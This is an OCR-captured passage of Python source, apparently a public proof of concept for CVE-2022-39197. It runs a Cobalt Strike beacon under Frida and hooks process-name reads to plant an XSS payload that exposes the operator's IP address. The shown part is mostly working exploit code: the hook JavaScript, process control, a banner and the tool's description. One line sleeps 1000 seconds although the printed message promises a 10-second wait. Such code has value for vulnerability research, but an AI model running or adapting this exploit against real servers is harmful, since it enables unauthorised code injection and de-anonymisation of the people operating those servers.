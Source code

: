                // console.log(this.szExeFile);  
      
      
            },  
            onLeave: function(retval) {  
            if(Memory.readAnsiString(this.szExeFile) == 'beacon.exe')//当进程名称为beacon时修改其名称，可以替换成其他  
            {  
                Memory.writeByteArray(ptr(this.szExeFile), payload)  
                console.log("find beacon.exe write payload")  
            }  
              
              
            //console.log(Memory.readAnsiString(this.szExeFile));  
              
              
            }  
        });  
        '''#.replace('http://127.0.0.1/',url)  
      
        script = session.create_script(js)  
      
        script.load()  
      
        #resume  
        frida.resume(pid)  
        print('[+] Let\'s wait for 10 seconds to ensure the payload sent!')  
        #wait for 10 seconds  
        time.sleep(1000)  
        #kill  
        frida.kill(pid)  
        print('[+] Done! Killed trojan process.')  
        exit(0)  
      
    def showbanner():  
        #Thanks http://patorjk.com/ for creating this awesome banner  
        banner=''' $$$$$$\            $$\                 $$\   $$\     $$$$$$$$\ $$\                       
    $$  __$$\           $$ |                $$ |  $$ |    $$  _____|\__|                      
    $$ /  \__| $$$$$$\  $$$$$$$\   $$$$$$\  $$ |$$$$$$\   $$ |      $$\  $$$$$$\   $$$$$$\    
    $$ |      $$  __$$\ $$  __$$\  \____$$\ $$ |\_$$  _|  $$$$$\    $$ |$$  __$$\ $$  __$$\   
    $$ |      $$ /  $$ |$$ |  $$ | $$$$$$$ |$$ |  $$ |    $$  __|   $$ |$$ |  \__|$$$$$$$$ |  
    $$ |  $$\ $$ |  $$ |$$ |  $$ |$$  __$$ |$$ |  $$ |$$\ $$ |      $$ |$$ |      $$   ____|  
    \$$$$$$  |\$$$$$$  |$$$$$$$  |\$$$$$$$ |$$ |  \$$$$  |$$ |      $$ |$$ |      \$$$$$$$\   
     \______/  \______/ \_______/  \_______|\__|   \____/ \__|      \__|\__|       \_______|  
                                                            CVE-2022-39197 PoC by @TomAPU  
                                                              
                                                            '''  
        print(banner)  
      
      
    parser = argparse.ArgumentParser(description='''This is a PoC for CVE-2022-39197, allowing to disclose CobaltStrike users' IP addresses by an exploit of XSS.(Well, clearly I haven't figure out how to trigger an RCE).  
    WARNING: This tool works by executing the trojan generated by CobaltStrike and hooking GetUserNameA to add XSS payload to beat the server. So, please, execute it in a virtual machine!  
    Currently, this POC only supports X86 exe payloads, and of course, works on Windows.  
      
    ''')  
      